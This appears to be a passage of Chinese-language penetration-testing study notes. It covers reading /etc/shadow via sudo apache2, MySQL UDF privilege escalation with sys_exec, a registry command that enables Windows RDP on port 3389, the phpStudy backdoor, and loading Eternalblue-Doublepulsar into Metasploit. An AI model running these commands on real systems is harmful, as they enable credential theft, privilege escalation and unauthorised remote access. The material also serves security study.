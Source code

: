 #apache

使用它我们可以查看系统文件

sudo apache2 -f /etc/shadow

**MYSQL UDF提权**

select sys_exec(\'id\') #执行系统命令

也可以使用

[可以使用MSF里面的** exploit/multi/mysql/mysql_udf_payload **模块自动注入]{.mark}

**windows命令行开启3389远程登录**

echo reg add
\"HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal
Server\" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f \>
C:\\WINDOWS\\system32\\3389.bat && call 3389.bat

**小皮后门漏洞**

**漏洞影响版本**

phpstudy
2016版PHP5.4.45和PHP5.2.17，phpstudy2018版php-5.2.17和php-5.4.45存在后门。

去掉accept-encoding 的值中间的点

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image3.png){width="5.760416666666667in"
height="0.9576695100612423in"}

**[P065 - 综合渗透测试 - 使用Eternalblue-Doublepulsar
获取主机权限]{.mark}**

导入[Eternalblue-Doublepulsar到msfconsole]{.mark}

[解压:]{.mark}

![localFile.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image4.png){width="5.760416666666667in"
height="2.832204724409449in"}

复制后缀名为rb的到/usr/share/Metasploit-framework/modules/exploits/windows/smb/

![localFile.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image5.png){width="5.760416666666667in"
height="0.4605216535433071in"}

**打开msfocnsole**

![localFile.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image6.png){width="5.760416666666667in"
height="2.1601563867016624in"}

**Options查看配置文件的位置**

![localFile.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image7.png){width="5.760416666666667in"
height="2.6756036745406826in"}

**然后把文件复制到对应位置**
